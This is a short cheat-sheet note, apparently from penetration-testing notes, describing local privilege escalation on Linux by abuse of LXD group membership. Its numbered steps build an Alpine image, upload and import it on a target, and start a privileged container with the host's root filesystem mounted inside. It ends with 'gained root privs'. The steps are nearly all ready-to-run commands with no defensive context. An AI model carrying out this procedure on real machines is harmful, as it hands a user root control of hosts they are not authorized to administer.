 # lxd Privilege Esc

1. git clone https://github.com/saghul/lxd-alpine-builder.git  
cd lxd-alpine-builder  
sudo ./build-alpine  

2. upload it to target machine

3. lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myalpine
lxc image list
lxc init myalpine ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh

--> gained root privs.
